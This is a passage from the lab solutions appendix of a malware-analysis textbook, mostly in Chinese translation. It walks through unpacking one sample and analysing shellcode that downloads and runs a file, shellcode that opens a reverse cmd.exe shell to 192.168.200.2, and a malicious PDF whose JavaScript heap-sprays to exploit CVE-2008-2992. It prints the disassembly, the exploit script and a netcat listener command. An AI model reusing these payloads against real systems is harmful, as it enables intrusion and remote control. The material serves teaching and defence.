我们利用 LoadLibrary 的调用作为绕过尽可能多的解包占位符的方法，因为我们希望程序一直运行到 LoadLibrary 的最后一次调用。因为我们不知道哪个 LoadLibrary 调用是最后的（直到太晚），每次断点被触发时，我们继续运行程序并记录正在加载的库。如果正在加载的库不是最后的，一旦加载下一个库，程序将很快停止。当加载最后的库时，程序应该继续运行，这就是我们知道我们已经找到了 LoadLibrary 的最后一次调用。当我们设置 LoadLibrary 的断点时，我们看到第一个加载的库是*kernel32.dll*，然后是*advapi32.dll*，依此类推。

第五次和第六次 LoadLibrary 调用加载*commctrl.dll*。在第六次调用之后，我们继续运行程序，它没有停止。第六次调用是最后的。

现在我们重新启动我们的程序。我们在 LoadLibrary 上重置断点，然后运行程序，直到断点被触发第六次，参数是 commctrl。接下来，我们在 GetProcAddress 上设置断点，并执行相同的程序来确定哪个 API 函数是最后一个通过 GetProcAddress 解析的。

我们运行程序几次，以找出哪个函数是最后加载的。在调用 GetProcAddress 并传入值 InternetOpenA 后，我们看到程序继续运行，没有再次触发我们的断点。现在我们再次重新启动程序。我们在 LoadLibraryA 和 LoadLibraryW 上重置断点，并运行程序，直到 LoadLibrary 的最终调用。

然后我们运行程序，直到 GetProcAddress 的最终调用。

解析导入几乎是解包占位符的最后一步。解析导入之后剩下的唯一任务是控制权转移到 OEP。解包占位符几乎完成，我们可以单步执行代码以找到 OEP。

**692**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们继续单步执行 GetProcAddress，直到 ret 指令将我们带回到解包占位符，然后我们继续单步执行代码，直到我们看到类似尾部跳转的代码。下一个控制转移指令如下所示：

00408EB4 STOS DWORD PTR ES:[EDI]

00408EB5 JMP SHORT Lab07_01.00408E9E

这也不是一个尾部跳转，因为它相对较短，并且跳转到以下代码，这些代码看起来不像程序的开始。

00408E9E LODS BYTE PTR DS:[ESI]

00408E9F TEST AL,AL

00408EA1 JNZ SHORT Lab07_01.00408E9E

这些指令形成了一个短循环，我们单步执行这段代码，直到循环结束。当循环完成后，代码会跳转到以下指令：

00408EA3 CMP BYTE PTR DS:[ESI],AL

00408EA5 JE SHORT Lab07_01.00408E91

这也不是一个尾部跳转，因为它相对较短，并且目标代码看起来不像程序的开始。

00408E91 POP ECX

00408E92 INC ESI

00408E93 LODS DWORD PTR DS:[ESI]

00408E94 TEST EAX,EAX

00408E96 JE SHORT Lab07_01.00408EB7

在下一块代码中的跳转会跳转到 retn 指令。一个正常的程序永远不会以 retn 指令开始，所以我们也知道那不是尾部跳转。

00408EB7 C3 RETN

当我们跳过 retn 指令时，我们看到列表 18-13L 中所示的代码。

**1 8**

00401190 PUSH EBP

00401191 MOV EBP,ESP

00401193 PUSH -1

00401195 PUSH Lab07_01.004040D0

0040119A PUSH Lab07_01.00401C58

0040119F MOV EAX,DWORD PTR FS:[0]

004011A5 PUSH EAX

004011A6 MOV DWORD PTR FS:[0],ESP

实验解决方案

**693**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004011AD SUB ESP,10

004011B0 PUSH EBX

004011B1 PUSH ESI

004011B2 PUSH EDI

004011B3 MOV DWORD PTR SS:[EBP-18],ESP

004011B6 CALL DWORD PTR DS:[40404C]

; kernel32.GetVersion

004011BC XOR EDX,EDX

004011BE MOV DL,AH

004011C0 MOV DWORD PTR DS:[405304],EDX

004011C6 MOV ECX,EAX

004011C8 AND ECX,0FF

004011CE MOV DWORD PTR DS:[405300],ECX

004011D4 SHL ECX,8

004011D7 ADD ECX,EDX

004011D9 MOV DWORD PTR DS:[4052FC],ECX

004011DF SHR EAX,10

004011E2 MOV DWORD PTR DS:[4052F8],EAX

004011E7 PUSH 0

004011E9 CALL Lab07_01.00401B21

004011EE POP ECX

004011EF TEST EAX,EAX

004011F1 JNZ SHORT Lab07_01.004011FB

004011F3 PUSH 1C

004011F5 CALL Lab07_01.00401294

004011FA POP ECX

004011FB AND DWORD PTR SS:[EBP-4],0

004011FF CALL Lab07_01.00401976

00401204 CALL DWORD PTR DS:[404048]

; kernel32.GetCommandLineA

0040120A MOV DWORD PTR DS:[4057F8],EAX

0040120F CALL Lab07_01.00401844

00401214 MOV DWORD PTR DS:[4052E0],EAX

00401219 CALL Lab07_01.004015F7

*列表 18-13L：Lab18-05.exe 的 OEP*

这看起来像是 OEP，有以下几个原因：

1\.

这是一个相对较远的跳转。

2\.

代码以处的 push ebp 开始，这表明函数的开始。

3\.

这个函数中的代码在处调用 GetVersion，在处调用 GetCommandLineA，这两个函数通常在程序开始时被调用。

确定了 OEP 后，我们使用**插件****OllyDump****转储** **调试进程**来转储未打包的程序。接下来，我们将程序加载到 IDA Pro 中，但不幸的是，我们遇到了一些错误。显然，程序的文件头并没有完全修复。然而，IDA Pro 仍然标记了主函数，因此即使 PE 文件没有完全重建，我们也可以分析程序。

**694**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

最大的障碍是我们没有任何导入信息。

然而，我们可以通过查找对数据位置的调用轻松地找到对导入函数的调用。例如，让我们看看主方法，如列表 18-14L 所示。

00401000 sub esp, 10h

00401003 lea eax, [esp+10h+var_10]

00401007 mov [esp+10h+var_10], offset aMalservice ; "MalService"

0040100F push eax

00401010 mov [esp+14h+var_C], offset sub_401040

00401018 mov [esp+14h+var_8], 0

00401020 mov [esp+14h+var_4], 0

00401028 call dword_404004

0040102E push 0

00401030 push 0

00401032 call sub_401040

00401037 add esp, 18h

0040103A retn

*列表 18-14L：未打包 Lab18-05.exe 的主方法* 调用处的跳转被识别为对导入函数的调用。您可以点击 DWORD 来查看该程序导入函数的地址，如列表 18-15L 所示。

00404000 dword_404000 dd 77E371E9h

00404004 dword_404004 dd 77E37EB1h

00404008 dword_404008 dd 77DF697Eh

0040400C align 10h

00404010 dword_404010 dd 7C862AC1h

00404014 dword_404014 dd 7C810BACh

*列表 18-15L：IDA Pro 未识别的导入函数* 为了使解包代码更容易分析，我们转向 OllyDbg 以找出哪些函数存储在这些位置。在 OllyDbg 中识别存储在给定地址的导入函数的最简单方法是更改任何寄存器的值为您要查找的地址。例如，要识别存储在 dword_404004 的导入函数，双击 eax 并输入值 **0x77E37EB1**。我们看到 OllyDbg 将地址标记为 Advapi32.StartServiceCtrlDispatcherA。我们可以在 IDA Pro 中将 DWORD 地址重命名为 StartServiceCtrlDispatcherA。现在每当恶意软件调用 **1 8**

最近重命名的地址，它将被标记为 StartServiceCtrlDispatcherA，而不是 dword_404004\.

我们可以为每个导入函数重复此过程，然后我们将有一个可以在 IDA Pro 中分析的程序，就像它从未打包过一样。我们还没有创建解包文件的可用版本，但这并不重要，因为我们可以在没有它的情况下分析文件。查看文件，我们可以看出这与 *Lab07-01.exe* 相同。

实验解答

**695**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验 19-1 解答**

***简短答案***

1.

Shellcode 使用字母编码存储；每个有效载荷字节存储在两个编码字节的低四位中。

2.

Shellcode 解析以下函数：



LoadLibraryA



GetSystemDirectoryA



TerminateProcess



GetCurrentProcess



WinExec



URLDownloadToFileA

3.

Shellcode 下载以下 URL：

*http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe* 4.

Shellcode 将 *%SystemRoot%\System32\1.exe* 写入磁盘并执行它。

5.

Shellcode 从编码有效载荷中存储的 URL 下载文件，将其写入磁盘并执行它。

***详细分析***

您可以使用 *shellcode_launcher.exe* 工具执行以下命令行进行动态分析：

shellcode_launcher.exe –i Lab19-01.bin -bp

–bp 选项会在跳转到 Shellcode 缓冲区之前使程序执行断点指令。如果系统配置了即时调试器，断点指令将导致 *shellcode_launcher.exe* 被调试器加载（如第十九章所述）。您可以通过选择 **选项****即时调试****将 OllyDbg 设置为即时调试器** 来将 OllyDbg 设置为您的即时调试器。

如果您没有设置即时调试器，您仍然可以通过指定 *shellcode_launcher.exe* 程序作为要调试的可执行文件来运行程序，但您还必须确保提供程序参数。

Shellcode 解码器从列表 19-1L 中的处开始。它使用字母编码，每个编码字节介于 0x41 ( *A*) 和 0x50 ( *P*) 之间。每个有效载荷字节存储在两个编码字节的低 4 位四分位中。解码器加载每一对编码字节，减去基本值 0x41，然后对两个值进行移位和加法，并将值存储回内存。显示处的 push 用于将控制权转移到带有 retn at 的有效载荷。

00000200 xor ecx, ecx 

00000202 mov cx, 18Dh

00000206 jmp short loc_21F

**696**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00000208

00000208 pop esi

00000209 push esi 

0000020A mov edi, esi

0000020C loc_20C:

0000020C lodsb

0000020D mov dl, al

0000020F sub dl, 41h ; 'A'

00000212 shl dl, 4

00000215 lodsb

00000216 sub al, 41h ; 'A'

00000218 add al, dl

0000021A stosb

0000021B dec ecx

0000021C jnz short loc_20C

0000021E retn 

0000021F loc_21F:

0000021F call sub_208

*列表 19-1L：具有字母编码的 Shellcode 解码器* 解码后的有效载荷的开始在偏移量 0x224 处，其中代码再次执行一个 call/pop 对，以获取存储在有效载荷末尾的数据的指针。这里存储了两个字符串：URLMON 和 URL http://

www.practicalmalwareanalysis.com/shellcode/annoy_user.exe.

Shellcode 使用第十九章中描述的相同的 findKernel32Base 和 findSymbolByHash 函数手动解析导入函数。findKernel32Base 函数返回内存中 *kernel32.dll* 的位置，而 findSymbolByHash 函数手动解析提供的 DLL，在内存中查找名称哈希值为给定 DWORD 值的导出符号。

这些函数指针被存储回堆栈以供以后使用。列表 19-2L 显示了解码后的 shellcode 搜索函数导入。

000002BF pop ebx

000002C0 call findKernel32Base

000002C5 mov edx, eax

000002C7 push 0EC0E4E8Eh ; kernel32.dll:LoadLibraryA 000002CC push edx

000002CD call findSymbolByHash

000002D2 mov [ebp-4], eax

000002D5 push 0B8E579C1h ; kernel32.dll:GetSystemDirectoryA 000002DA push edx

000002DB call findSymbolByHash

000002E0 mov [ebp-8], eax

000002E3 push 78B5B983h ; kernel32.dll:TerminateProcess **1 9**

000002E8 push edx

000002E9 call findSymbolByHash

000002EE mov [ebp-0Ch], eax

000002F1 push 7B8F17E6h ; kernel32.dll:GetCurrentProcess 000002F6 push edx

000002F7 call findSymbolByHash

000002FC mov [ebp-10h], eax

解决实验室问题

**697**

[www.it-ebooks.info](http://www.it-ebooks.info/)

000002FF push 0E8AFE98h ; kernel32.dll:WinExec 00000304 push edx

00000305 call findSymbolByHash

0000030A mov [ebp-14h], eax

0000030D lea eax, [ebx]

0000030F push eax

00000310 call dword ptr [ebp-4] ; LoadLibraryA

00000313 push 702F1A36h ; urlmon.dll:URLDownloadToFileA 00000318 push eax

00000319 call findSymbolByHash

*列表 19-2L：Shellcode 解析导入*

列表 19-3L 显示了 shellcode 的主要功能。恶意软件检索系统目录在处，然后附加字符串 1.exe 在处。

这被用作在处调用的 URLDownloadToFileA 的本地文件系统路径参数。该函数通常在脚本代码中找到。一个函数调用执行对代码指定的 URL 的 HTTP GET 操作，并将其存储在指定的文件路径中。在这里，URL 是解码后的脚本代码末尾存储的字符串。最后，脚本代码在处执行下载的文件，然后干净地退出。

0000031E mov [ebp-18h], eax

00000321 push 80h

00000326 lea edi, [ebx+48h]

00000329 push edi

0000032A call dword ptr [ebp-8] ; GetSystemDirectoryA 

0000032D add edi, eax

0000032F mov dword ptr [edi], 652E315Ch ; "\\1.e" 

00000335 mov dword ptr [edi+4], 6578h ; "xe\x00"

0000033C xor ecx, ecx

0000033E push ecx

0000033F push ecx

00000340 lea eax, [ebx+48h]

00000343 push eax ; localFileSystemPath 00000344 lea eax, [ebx+7]

00000347 push eax ; URL to download

00000348 push ecx

00000349 call dword ptr [ebp-18h] ; URLDownloadToFileA 

0000034C push 5

00000351 lea eax, [ebx+48h] ; path to executable 00000354 push eax

00000355 call dword ptr [ebp-14h] ; WinExec 

00000358 call dword ptr [ebp-10h] ; GetCurrentProcess 0000035B push 0

00000360 push eax

00000361 call dword ptr [ebp-0Ch] ; TerminateProcess *Listing 19-3L: Shellcode payload*

**698**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 19-2 Solutions**

***Short Answers***

1\.

程序将默认网络浏览器，即 Internet Explorer，注入进程。

2\.

脚本代码缓冲区位于 0x407030\.

3\.

脚本代码与字节 0xe7 进行 XOR 运算。

4\.

脚本代码手动导入以下函数：



LoadLibraryA



CreateProcessA



TerminateProcess



GetCurrentProcess



WSAStartup



WSASocketA



connect

5\.

脚本代码连接到 IP 192.168.200.2 上的 TCP 端口 13330\.

6\.

脚本代码提供了一个远程 shell（ *cmd.exe*）。

***Detailed Analysis***

恶意软件首先通过读取注册表值 HKCR\http\shell\open\command 来确定默认网络浏览器。浏览器作为一个新进程被创建，其 StartupInfo.wShowWindow 值被设置为 SW_HIDE，因此进程在用户界面中不可见。将默认网络浏览器注入进程是恶意软件的常见技巧，因为网络浏览器执行网络通信是正常的。

进程作为注入的一部分使用了以下函数：



0x4010b0 地址处的函数赋予当前进程适当的权限以允许调试。



0x401000 地址处的函数从寄存器中获取默认网络浏览器的路径。



0x401180 地址处的函数创建一个新的进程，其窗口在 GUI 中隐藏。

脚本代码缓冲区位于 0x407030\. 因为脚本代码能够自我引导，所以可以通过在 OllyDbg 中打开*Lab19-02.exe*程序并将原点设置为脚本代码缓冲区的开始来轻松进行动态分析。只需记住，脚本代码被设计为**1 9**

在将其注入处理之后在网页浏览器中执行，但在*Lab19-02.exe*程序上下文中进行动态分析可能更容易。

实验解决方案

**699**

[www.it-ebooks.info](http://www.it-ebooks.info/)

此 shellcode 使用单字节 XOR 方案进行编码。如列表 19-4L 所示，0x18f 字节与值 0xe7 在处进行 XOR 操作。

00407032 pop edi

00407033 push small 18Fh

00407037 pop cx

00407039 mov al, 0E7h

0040703B loc_40703B:

0040703B xor [edi], al 

0040703D inc edi

0040703E loopw loc_40703B

00407041 jmp short near ptr unk_407048 

*Listing 19-4L:* Lab19-02.exe *decode loop*

Shellcode 有效负载从 0x407048 开始。在列表 19-4L 中的处的 jmp 指令上设置断点，并运行代码。Shellcode 有效负载将被解码并可用于分析。

代码在列表 19-5L 中的处执行了 call/pop 操作，以获取位于 0x4071bb 处的函数哈希地址。请记住，所有随后的代码列表都显示了解码字节的反汇编，因此在解码循环运行之前查看有效负载将显示与列表中不同的值。

004071B6 call loc_4070E3 

004071BB dd 0EC0E4E8Eh ; kernel32.dll:LoadLibraryA 004071BF dd 16B3FE72h ; kernel32.dll:CreateProcessA 004071C3 dd 78B5B983h ; kernel32.dll:TerminateProcess 004071C7 dd 7B8F17E6h ; kernel32.dll:GetCurrentProcess 004071CB dd 3BFCEDCBh ; ws2_32.dll:WSAStartup 004071CF dd 0ADF509D9h ; ws2_32.dll:WSASocketA 004071D3 dd 60AAF9ECh ; ws2_32.dll:connect

*Listing 19-5L: Shellcode hash array*

接下来，shellcode 处理符号哈希数组，如列表 19-6L 所示。它使用与第十九章和 Lab 19-1 中描述的相同的 findKernel32Base 和 findSymbolByHash。它在处加载包含符号哈希的下一个 DWORD，调用 findSymbolByHash，并将结果存储回同一位置。这将哈希值数组转换为函数指针数组。

004070E3 pop esi

004070E4 mov ebx, esi

004070E6 mov edi, esi

004070E8 call findKernel32Base

004070ED mov edx, eax

004070EF mov ecx, 4 C02 ; 4 symbols in kernel32

004070F4 loc_4070F4:

004070F4 lodsd 

**700**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004070F5 push eax

004070F6 push edx

004070F7 call findSymbolByHash

004070FC stosd 

004070FD loop loc_4070F4

*Listing 19-6L: Hash array processing*

Shellcode 通过在列表 19-7L 的堆栈上推送两个 DWORD 值来构建字符串"ws2_32"。它将当前的 ESP 作为 LoadLibraryA 的参数传递到以加载*ws2_32.dll*库。这是一个常见的技巧，在 shellcode 执行时形成所需的短字符串。然后 shellcode 继续处理位于*ws2_32.dll*中的剩余三个哈希值。

004070FF push 3233h ; "32\x00" 

00407104 push 5F327377h ; "ws2_"

00407109 push esp

0040710A call dword ptr [ebx] ; LoadLibraryA 

0040710C mov edx, eax

0040710E mov ecx, 3 ; 3 symbols in ws2_32 

00407113 loc_407113:

00407113 lodsd

00407114 push eax

00407115 push edx

00407116 call findSymbolByHash

0040711B stosd

0040711C loop loc_407113

*列表 19-7L：导入 ws2_32*

列表 19-8L 展示了创建套接字的代码。当前的 ESP 通过 EAX 进行屏蔽以确保堆栈正确对齐，以便用于 Winsock 库的结构。shellcode 在调用任何其他网络功能调用之前调用 WSAStartup 初始化库。然后调用 WSASocketA 创建 TCP 套接字。它依赖于 EAX 中的值是 0，然后将其增加以创建 WSASocketA 的正确参数。类型值是 1（SOC_STREAM），af 值是 2（AF_INET）。

0040711E sub esp, 230h

00407124 mov eax, 0FFFFFFF0h

00407129 and esp, eax 

0040712B push esp

0040712C push 101h

00407131 call dword ptr [ebx+10h] ; WSAStartup 

**1 9**

00407134 test eax, eax

00407136 jnz short loc_4071AA

00407138 push eax

00407139 push eax

0040713A push eax

实验解决方案

**701**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040713B push eax ; 协议 0: IPPROTO_IP

0040713C inc eax

0040713D push eax ; 类型 1：SOCK_STREAM

0040713E inc eax

0040713F push eax ; af 2: AF_INET

00407140 call dword ptr [ebx+14h] ; WSASocketA 

00407143 cmp eax, 0FFFFFFFFh

00407148 jz short loc_4071AA

*列表 19-8L：套接字创建*

列表 19-9L 展示了通过推送两个 DWORD 值在堆栈上创建 struct sockaddr_in 的 shellcode。第一个值是 2C8A8C0h。这是 shellcode 将连接到的 IP 地址的网络字节序值：192.168.200.2。第二个值是 12340002h，它是 sin_family（2：AF_INET）和 sin_port 的值：13330（0x3412）的网络字节序。这个 sockaddr_in 被传递给 connect 调用。以这种方式存储 IP 地址和端口非常紧凑，使得在尝试识别网络主机时静态分析变得更加困难。

0040714A mov esi, eax

0040714C push 2C8A8C0h  ; 服务器 IP：192.168.200.2 (c0.a8.c8.02) 0040714C ; 在 nbo 中：0x02c8a8c0

00407151 push 12340002h  ; 服务器端口：13330（0x3412），AF_INET（2） 00407151 ; 在 nbo 中：0x12340002

00407156 mov ecx, esp

00407158 push 10h ; sockaddr_in 大小

0040715D push ecx ; sockaddr_in 指针 0040715E push eax

0040715F call dword ptr [ebx+18h] ; connect 

00407162 test eax, eax

00407164 jnz short loc_4071AA

*列表 19-9L：套接字连接*

列表 19-10L 展示了负责创建 *cmd.exe* 进程的 shellcode。代码通过简单的推送将执行命令（"cmd\x00"）存储在堆栈上，然后保存当前的 ESP 作为后续使用的指针。shellcode 然后准备调用 CreateProcessA。大多数参数都是 0（ECX 的内容），但请注意，在  处，bInheritHandles 是 1，表示 shellcode 打开的文件句柄将可用于子进程。

00407166 push 646D63h ; "cmd\x00" 

0040716B mov [ebx+1Ch], esp

0040716E sub esp, 54h

00407174 xor eax, eax

00407176 mov ecx, 15h

0040717B lea edi, [esp]

0040717E rep stosd

00407180 mov byte ptr [esp+10h], 44h ; sizeof(STARTUPINFO) 

00407185 inc byte ptr [esp+3Ch] ; STARTF_USESHOWWINDOW 

**702**

Appendix C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00407189 inc byte ptr [esp+3Dh] ; STARTF_USESTDHANDLES

0040718D mov eax, esi 

0040718F lea edi, [esp+48h] ; &hStdInput 

00407193 stosd ; hStdInput := socket 00407194 stosd ; hStdOutput := socket 00407195 stosd ; hStdError := socket 00407196 lea eax, [esp+10h]

0040719A push esp ; lpProcessInformation 0040719B push eax ; lpStartupInfo

0040719C push ecx

0040719D push ecx

0040719E push ecx

0040719F push 1 ; bInheritHandles := True 

004071A1 push ecx

004071A2 push ecx

004071A3 push dword ptr [ebx+1Ch] ; lpCommandLine: "cmd"

004071A6 push ecx

004071A7 call dword ptr [ebx+4] ; CreateProcessA

*Listing 19-10L: Reverse shell creation*

The STARTUPINFO struct is initialized on the stack, including the size at .

The dwFlags field is set to STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES at .

STARTF_USESHOWWINDOW indicates that the STARTUPINFO.wShowWindow field is valid.

This is zero-initialized, so the new process won’t be visible. STARTF_USESTDHANDLES

indicates that the STARTUPINFO.hStdInput, STARTUPINFO.hStdOutput, and STARTUPINFO

.hStdError fields are valid handles for the child process to use.

The shellcode moves the socket handle into EAX at  and loads the address of hStdInput at . The three stosd instructions store the socket handle in the three handle fields of the STARTUPINFO structure. This means that the new *cmd.exe* process will use the socket for all of its standard I/O. (This is a common method that was shown in Chapter 7.)

You can test connections to the control server by running Netcat on a host with the IP address 192.168.200.2 with this command: nc -l -p 13330

Once Netcat is running, run *Lab19-02.exe* on another system. If you have set up networking correctly, the victim machine will connect to 192.168.200.2, and Netcat will show the Windows command-line banner. You can enter commands there as if you were sitting at the victim’s system.

**Lab 19-3 Solutions**

**1 9**

***Short Answers***

1\.

The PDF contains an example of CVE-2008-2992: buffer overflow related to Adobe Reader’s *util.printf* JavaScript implementation.

2\.

The shellcode is encoded using JavaScript’s percent-encoding and is stored along with the JavaScript in the PDF.

Solutions to Labs

**703**

[www.it-ebooks.info](http://www.it-ebooks.info/)

3\.

The shellcode manually imports the following functions:



LoadLibraryA



SetFilePointer



CreateProcessA



ReadFile



TerminateProcess



WriteFile



GetCurrentProcess



CloseHandle



GetTempPathA



GlobalAlloc



SetCurrentDirectoryA



GlobalFree



CreateFileA



ShellExecuteA



GetFileSize

4\.

The shellcode creates the files *%TEMP%\foo.exe* and *%TEMP%\bar.pdf*.

5\.

The shellcode extracts two files stored encoded within the malicious PDF

并将它们写入用户的 *%TEMP%* 目录。它执行 *foo.exe* 文件，并使用默认处理程序打开 *bar.pdf* 文档。

***详细分析***

PDF 格式混合了文本和二进制，因此仅使用字符串命令或十六进制或文本编辑器查看 PDF 可以提供一些关于内容的基本信息。然而，攻击者可以轻易地混淆这些信息。PDF 允许对象使用 zlib 进行压缩。您将看到对象字典中的 /Filter

/FlateDecode 作为对象字典中的选项。在这些情况下，您需要依赖其他技术来提取这些数据。（参见附录 B 中推荐的恶意 PDF 解析器。）

列表 19-11L 显示了此 PDF 中的对象 9 0。此对象包含在文档打开时将执行的 JavaScript。

9 0 obj

<<

/Length 3486

>>

stream

var payload = unescape("%ue589%uec81 .... %u9090"); 

var version = app.viewerVersion;

app.alert("正在运行 PDF JavaScript！");

if (version >= 8 && version < 9) { 

var payload;

nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A")

heapblock = nop + payload;

bigblock = unescape("%u0A0A%u0A0A");

headersize = 20;

spray = headersize+heapblock.length;

while (bigblock.length<spray) {

bigblock+=bigblock;

}

fillblock = bigblock.substring(0, spray);

block = bigblock.substring(0, bigblock.length-spray);

**704**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

while(block.length+spray < 0x40000) { 

block = block+block+fillblock;

}

mem = new Array();

for (i=0;i<1400;i++) {

mem[i] = block + heapblock;

}

var num = 12999999999999999999888888888888...;

util.printf("%45000f",num); 

} else {

app.alert("未知 PDF 版本！");

}

endstream

endobj

*列表 19-11L：PDF JavaScript 对象*

JavaScript 检查应用版本在  以确定是否尝试利用。能够运行此类活动内容来分析系统对攻击者来说非常强大，因为它允许他们分析系统并选择最有可能成功的利用方式。

然后脚本在  处执行堆喷，随后调用 util.printf 在 ，这将触发利用。由于打印的数字非常大，这一行看起来很可疑。实际上，网络搜索揭示了一个相当古老的漏洞：CVE-2008-2992，其中不正确的边界检查允许在 Adobe Reader 8.1.2 及更早版本中发生溢出。

**注意**

*堆喷射*涉及在进程堆的广大区域制作 shellcode 的多个副本，以及大型的 NOP 滑梯。攻击者随后利用漏洞，并用指向内存堆内存段某处的值覆盖函数指针或返回地址。攻击者选择一个指向已知进程堆内存段某处的值，该值指向 NOP 滑梯并进入有效的 shellcode 副本的可能性足够高，足以使这种方法成为获取执行的一种可靠方式。堆喷射在攻击者可以在启动利用之前在目标系统上执行一些代码的情况下很受欢迎，例如在这个 PDF 中的 JavaScript 案例。

负载变量在列表 19-11L 中使用 unescape 函数和长文本字符串初始化。unescape 函数通过以下方式转换每个%字符：



如果%后面跟着 u，它将取下四个字符，将它们视为**1 9**

ASCII 十六进制数，并将其转换为 2 个字节。由于它的端序，输出顺序将进行字节交换。



如果%后面没有跟 u，它将取下两个字符，将它们视为 ASCII 十六进制数，并将其转换为 1 个字节。

实验解决方案

**705**

[www.it-ebooks.info](http://www.it-ebooks.info/)

例如，字符串以%ue589%uec81%u017c 开头，并将转换为十六进制序列 0x89 0xe5 0x81 0xec 0x7c 0x01。您可以使用列表 19-12L 中的 Python 脚本来手动 unescape shellcode 负载并将其转换为适合进一步分析的二进制文件，或者您可以使用包含实验室提供的解码内容的*Lab19-03_sc.bin*文件。

def decU16(inbuff):

"""

手动执行 JavaScript 的 unescape()函数。

"""

i = 0

outArr = [ ]

while i < len(inbuff):

if inbuff[i] == '"':

i += 1

elif inbuff[i] == '%':

if ((i+6) <= len(inbuff)) and (inbuff[i+1] == 'u'):

#这是一个 2 字节的“unicode”值

currchar = int(inbuff[i+2:i+4], 16)

nextchar = int(inbuff[i+4:i+6], 16)

#switch order for little-endian

outArr.append(chr(nextchar))

outArr.append(chr(currchar))

i += 6

elif (i+3) <= len(inbuff):

#这是一个单字节

currchar = int(inbuff[i+1:i+3], 16)

outArr.append(chr(currchar))

i += 3

else:

# 没有需要更改的内容

outArr.append(inbuff[i])

i += 1

return ''.join(outArr)

payload = "%ue589%uec81 ... %u9008%u9090"

outFile = file('Lab19-03_sc.bin', 'wb')

outFile.write(decU16(payload))

outFile.close()

*Listing 19-12L: Python unescape() equivalent script*

您可以使用以下命令动态分析 shellcode：shellcode_launcher.exe –i Lab19-03_sc.bin –r Lab19-03.pdf –bp The –r 选项会导致程序在跳转到 shellcode 之前打开指定的文件进行读取，这是必需的，因为这段 shellcode 期望有一个指向恶意媒体文件的打开文件句柄。

**706**

Appendix C

[www.it-ebooks.info](http://www.it-ebooks.info/)

列表 19-13L 中 shellcode 的开始使用 call/pop 技术获取从 开始的全局数据指针。

00000000 将 ebp 设置为 esp

00000002 将 esp 减少到 17Ch

00000008 调用子程序 sub_17B

0000000D dd 0EC0E4E8Eh  ; kernel32.dll:LoadLibraryA 00000011 dd 16B3FE72h ; kernel32.dll:CreateProcessA 00000015 dd 78B5B983h ; kernel32.dll:TerminateProcess 00000019 dd 7B8F17E6h ; kernel32.dll:GetCurrentProcess 0000001D dd 5B8ACA33h ; kernel32.dll:GetTempPathA 00000021 dd 0BFC7034Fh ; kernel32.dll:SetCurrentDirectoryA 00000025 dd 7C0017A5h ; kernel32.dll:CreateFileA 00000029 dd 0DF7D9BADh ; kernel32.dll:GetFileSize 0000002D dd 76DA08ACh ; kernel32.dll:SetFilePointer 00000031 dd 10FA6516h ; kernel32.dll:ReadFile 00000035 dd 0E80A791Fh ; kernel32.dll:WriteFile 00000039 dd 0FFD97FBh ; kernel32.dll:CloseHandle 0000003D dd 0C0397ECh ; kernel32.dll:GlobalAlloc 00000041 dd 7CB922F6h ; kernel32.dll:GlobalFree 00000045 dd 1BE1BB5Eh ; shell32.dll:ShellExecuteA 00000049 dd 0C602h ; PDF 文件大小

0000004D dd 106Fh ; 文件 #1 偏移

00000051 dd 0A000h ; 文件 #1 大小

00000055 dd 0B06Fh ; 文件 #2 偏移

00000059 dd 144Eh ; 文件 #2 大小

*列表 19-13L：Shellcode 全局数据*

列表 19-14L 中的 shellcode 使用了第十九章和实验 19-1 中定义的 findKernel32Base 和 findSymbolByHash 函数。与实验 19-2 类似，shellcode 遍历符号哈希，解析它们并将它们存储回创建函数指针数组。这是在 处对 *kernel32* 执行的 14 次。然后，shellcode 通过在 处推送两个 DWORD 值来在堆栈上创建字符串 shell32，用作 LoadLibraryA 的参数。

从 *shell32.dll* 单独导出并添加到函数指针数组。

0000017B 从 esi 中弹出

0000017C 将 esi 存储在 ebp-14h

0000017F 将 edi 寄存器设置为 esi

00000181 将 ebx 寄存器设置为 esi

00000183 调用 findKernel32Base

00000188 将 eax 存储在 ebp-4

0000018B 将 ecx 寄存器设置为 0Eh 

**1 9**

00000190 loc_190:

00000190 lodsd

00000191 推送 eax

00000192 推送 ebp-4 的双字指针

00000195 调用 findSymbolByHash

0000019A stosd

0000019B loop loc_190

0000019D 推送 32336Ch ; l32\x00 

实验解决方案

**707**

[www.it-ebooks.info](http://www.it-ebooks.info/)

000001A2 推送 6C656873h ; shel

000001A9 推送 eax

000001AA 调用 [ebx] 的双字指针；LoadLibraryA

000001AC 交换 eax 和 ecx

000001AD lodsd

000001AE 推送 eax

000001AF 推送 ecx

000001B0 调用 findSymbolByHash

000001B5 stosd 

*列表 19-14L：哈希数组处理*

列表 19-15L 中的 shellcode 然后循环调用 GetFileSize 函数。给定一个打开的句柄，这个函数返回与句柄对应的文件大小。它在  处将句柄值初始化为 0，并在每次迭代时将其加 4。结果与 shellcode 嵌入数据中偏移量为 0x3c 的值进行比较。这个值是 0xC602，它是恶意 PDF 的确切大小。这就是 shellcode 将找到 Adobe Reader 在漏洞利用启动之前已打开的 PDF 文档的现有打开句柄的方式。（在恶意媒体文件中存储编码数据是常见的，因为媒体文件可以相当大而不会引起怀疑。）恶意软件需要一个指向恶意媒体文件的打开句柄才能按预期工作，这就是为什么必须为这个样本提供 *shellcode_launcher.exe* 的 -r 标志以执行任何操作。

000001B6 将 esi 与自己异或 

000001B8 将 [ebp-14h] 的值移动到 ebx

000001BB loc_1BB:

000001BB 将 esi 加 4 

000001C1 将 eax 寄存器加载为 [ebp-8] 的值

000001C4 将 eax 压入堆栈

000001C5 将 esi 压入堆栈

000001C6 调用 [ebx+1Ch] 的双字指针 ; 获取文件大小

000001C9 比较 eax 与 [ebx+3Ch] 的值 ; PDF 文件大小

000001CC 如果不为零则跳转到 short loc_1BB

000001CE 将 esi 存入 [ebp-8]

*列表 19-15L: PDF 处理器搜索*

